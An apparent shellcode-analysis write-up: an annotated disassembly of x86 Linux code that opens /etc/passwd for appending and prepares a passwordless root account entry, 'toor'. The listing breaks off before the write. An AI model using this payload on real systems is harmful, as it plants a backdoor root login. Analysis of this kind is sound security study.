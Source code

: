 Follows the output of `ndisasm`:

```nasm
                            ; Use the JMP-CALL-POP technique get a pointer to the string starting from address
                            ;   0000003A and ending at 00000069
                            ; the string is: /etc/passwd#toor::0:0:t00r:/root:/bin/bash #
00000000  EB38              jmp short 0x3a
00000002  5E                pop esi

                            ; clear the EAX register
00000003  31C0              xor eax,eax

                            ; replace the '#' character after '/etc/passwd'
                            ;   with a NULL byte
00000005  88460B            mov [esi+0xb],al

                            ; replace the '#' character after '/bin/bash '
                            ;   with a NULL byte
00000008  88462B            mov [esi+0x2b],al

                            ; replace the space after '/bin/bash'
                            ;   with a Line Feed (0x0a)
0000000B  C6462A0A          mov byte [esi+0x2a],0xa

                            ; store the pointer to 'toor::0:0:t00r:/root:/bin/bash'
                            ;   into EBX
0000000F  8D5E0C            lea ebx,[esi+0xc]

                            ; save the previous pointer after the following string:
                            ;   'toor::0:0:t00r:/root:/bin/bash\x0a\x00'
00000012  895E2C            mov [esi+0x2c],ebx

                            ; copy ESI into EBX
                            ;   it's pointing to the string "/etc/passwd"
00000015  8D1E              lea ebx,[esi]

                            ; 2nd argument of open():
                            ;   flags applied when opening the file:
                            ;     - O_APPEND
                            ;     - O_CREAT
                            ;     - O_RDWR
00000017  66B94204          mov cx,0x442

                            ; 3rd argument of open():
                            ;   mode (mode bits applied when a new file is created):
                            ;     - S_IRUSR
                            ;     - S_IWUSR
                            ;     - S_IRGRP
                            ;     - S_IROTH
0000001B  66BAA401          mov dx,0x1a4
```
